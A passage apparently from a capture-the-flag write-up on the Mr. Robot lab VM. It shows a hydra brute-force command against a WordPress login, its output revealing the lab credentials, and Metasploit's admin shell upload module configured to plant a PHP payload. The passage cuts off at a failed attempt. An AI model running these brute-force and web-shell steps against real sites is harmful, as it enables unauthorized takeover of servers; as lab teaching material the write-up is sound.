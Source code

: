 ```bash
hydra -l elliot -P fsocity.uniq.dic 192.168.0.102 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.0.102%2Fwp-admin%2F&testcookie=1:incorrect"

[STATUS] 709.00 tries/min, 709 tries in 00:01h, 10743 to do in 00:16h, 16 active
[STATUS] 705.00 tries/min, 2115 tries in 00:03h, 9337 to do in 00:14h, 16 active
[STATUS] 702.29 tries/min, 4916 tries in 00:07h, 6536 to do in 00:10h, 16 active
[80][http-post-form] host: 192.168.0.105   login: elliot   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
```
As we can see the credentials to wordpress installation are the following:

```
elliot:ER28-0652
```

Having admin rights on Wordpress gives us plenty of possibilities to escalate the attack. I'm feeling kinda lazy so I decide to use preprepared solution from Metasploit:

```bash
msfconsole -q
msf > use exploit/unix/webapp/wp_admin_shell_upload
msf exploit(wp_admin_shell_upload) > info

       Name: WordPress Admin Shell Upload
     Module: exploit/unix/webapp/wp_admin_shell_upload
   Platform: PHP
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2015-02-21

Provided by:
  Rob Carr <rob@rastating.com>

Available targets:
  Id  Name
  --  ----
  0   WordPress

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  PASSWORD   ER28-0652        yes       The WordPress password to authenticate with
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOST      192.168.0.105    yes       The target address
  RPORT      80               yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  TARGETURI  /                yes       The base path to the wordpress application
  USERNAME   elliot           yes       The WordPress username to authenticate with
  VHOST                       no        HTTP server virtual host

Payload information:

Description:
  This module will generate a plugin, pack the payload into it and 
  upload it to a server running WordPress providing valid admin 
  credentials are used.
```
Unfortunately my first attempts to attack ended in error:
